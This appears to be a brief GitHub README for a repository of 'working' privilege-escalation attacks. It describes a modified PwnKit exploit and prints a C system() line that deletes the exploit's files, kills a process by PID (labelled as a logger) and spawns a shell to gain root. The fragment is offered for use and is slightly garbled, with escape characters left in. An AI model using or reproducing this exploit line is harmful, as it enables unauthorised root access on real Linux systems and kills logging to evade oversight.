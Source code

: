 # attacks
Collection of working Attacks for Priviledge escalation
1. Pwnkit Attack
  It has been modified to take the PID of a process and kill it, you can change the line as below to kill the process and get root shell
   system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit';kill -9 %d; echo 'Killed Logger';bin/sh\");\n"
